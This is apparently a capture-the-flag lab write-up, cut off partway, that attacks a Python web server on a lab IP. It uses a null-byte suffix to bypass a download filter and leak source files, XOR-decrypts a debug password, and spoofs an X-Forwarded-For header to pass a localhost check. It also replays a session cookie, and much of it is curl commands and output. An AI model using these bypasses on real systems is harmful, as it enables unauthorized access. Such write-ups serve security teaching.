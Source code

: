 Upon running `curl http://10.10.158.95:7777/cloud -X POST -d 'download=debugpassword.py'` I see it will not work. Looking at the code more I see I can only download `source.py` and files that end with `.txt`. 

After a while I figure out I can download the file with the help of a null byte `%00` and appending `.txt`. 
```shell
curl http://10.10.158.95:7777/cloud -X POST -d 'download=debugpassword.py%00.txt'

import pwn  
  
def get_encrypted(passwd):  
   return pwn.xor(bytes(passwd, 'utf-8'), b'redacted')
```

To get the password I run `python3 -m venv venv`, then `source venv/bin/activate`, then `pip install pwntools`. My python script looks like this:
```python
from pwn import xor  
  
cipher = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'  
key = b'redacted'  
  
# XOR again to decrypt  
password = xor(cipher, key)  
print(password.decode())
```
I run it and get the password. 

I am able to supply the password and see `Debug statement executed.`. I look back at the python server and see it is doing an ip check and if it fails returns a `401`. Now I read the `ip` module being imported:
```shell
curl http://10.10.158.95:7777/cloud -X POST -d 'download=ip.py%00.txt'
```
```shell
host_ip = "127.0.0.1"  
def checkIP(req):  
   try:  
       return req.headers.getlist("X-Forwarded-For")[0] == host_ip  
   except:  
       return req.remote_addr == host_ip
```
From this I can see I need to include the http header: `X-Forwarded-For: 127.0.0.1`. 

From looking at the `debugresult()` function in the python server I see I also need the session cookie from successfuly executing a debug statement. I get that with curl: 
```shell
curl -I 'http://10.10.158.95:7777/debug?debug=1337*1337&password=redacted'

Set-Cookie: session=.eJyrVkpJTSpNV7JSMjQ2NtcCEUo6SgWJxcXl-UUpQOEkdYWYmAoDAzRCFUgaJsfEFIF4xiCOBYhlBmKlqivVAgB6iRqU.aIfZOg.O0zSYwnmkOVudHHNrC3-6fMeH7w
```

I put it all together to see the `debugresult` page:
```shell
curl 'http://10.10.158.95:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSMjQ2NtcCEUo6SgWJxcXl-UUpQOEkdYWYmAoDAzRCFUgaJsfEFIF4xiCOBYhlBmKlqivVAgB6iRqU.aIfZOg.O0zSYwnmkOVudHHNrC3-6fMeH7w'

<!DOCTYPE html>  
<html lang="en">  
<head>
</head>
<body>  
   <div class="main">  
       <h1 class="title">Debugging Results</h1>  
<pre>  
```